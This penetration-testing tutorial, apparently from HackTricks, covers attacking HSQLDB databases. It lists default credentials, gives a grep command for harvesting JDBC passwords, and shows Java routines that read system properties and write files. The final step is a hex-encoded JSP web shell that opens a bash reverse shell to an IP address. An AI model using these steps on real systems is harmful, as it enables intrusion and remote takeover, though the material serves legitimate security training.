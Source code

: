 {{#include ../banners/hacktricks-training.md}}

# Basic Information

**HSQLDB \([HyperSQL DataBase](http://hsqldb.org/)\)** is the leading SQL relational database system written in Java. It offers a small, fast multithreaded and transactional database engine with in-memory and disk-based tables and supports embedded and server modes.

**Default port:** 9001

```text
9001/tcp open  jdbc      HSQLDB JDBC (Network Compatibility Version 2.3.4.0)
```

# Information

### Default Settings

Note that by default this service is likely running in memory or is bound to localhost. If you found it, you probably exploited another service and are looking to escalate privileges.

Default credentials are usually `sa` with a blank password.

If you’ve exploited another service, search for possible credentials using

```text
grep -rP 'jdbc:hsqldb.*password.*' /path/to/search
```

Note the database name carefully - you’ll need it to connect.

# Info Gathering

Connect to the DB instance by [downloading HSQLDB](https://sourceforge.net/projects/hsqldb/files/) and extracting `hsqldb/lib/hsqldb.jar`. Run the GUI app \(eww\) using `java -jar hsqldb.jar` and connect to the instance using the discovered/weak credentials.

Note the connection URL will look something like this for a remote system: `jdbc:hsqldb:hsql://ip/DBNAME`.

# Tricks

## Java Language Routines

We can call static methods of a Java class from HSQLDB using Java Language Routines. Do note that the called class needs to be in the application’s classpath.

JRTs can be `functions` or `procedures`. Functions can be called via SQL statements if the Java method returns one or more SQL-compatible primitive variables. They are invoked using the `VALUES` statement.

If the Java method we want to call returns void, we need to use a procedure invoked with the `CALL` statement.

## Reading Java System Properties

Create function:

```text
CREATE FUNCTION getsystemproperty(IN key VARCHAR) RETURNS VARCHAR LANGUAGE JAVA
DETERMINISTIC NO SQL
EXTERNAL NAME 'CLASSPATH:java.lang.System.getProperty'
```

Execute function:

```text
VALUES(getsystemproperty('user.name'))
```

You can find a [list of system properties here](https://docs.oracle.com/javase/tutorial/essential/environment/sysprop.html).

## Write Content to File

You can use the `com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename` Java gadget located in the JDK \(auto loaded into the class path of the application\) to write hex-encoded items to disk via a custom procedure. **Note the maximum size of 1024 bytes**.

Create procedure:

```text
CREATE PROCEDURE writetofile(IN paramString VARCHAR, IN paramArrayOfByte VARBINARY(1024))
LANGUAGE JAVA DETERMINISTIC NO SQL EXTERNAL NAME
'CLASSPATH:com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename'
```

Execute procedure:

```text
call writetofile('/path/ROOT/shell.jsp', cast ('3c2540207061676520696d706f72743d226a6176612e696f2e2a2220253e0a3c250a202020537472696e6720636d64203d20222f62696e2f62617368202d69203e26202f6465762f7463702f3139322e3136382e3131392[...]' AS VARBINARY(1024)))
```

{{#include ../banners/hacktricks-training.md}}
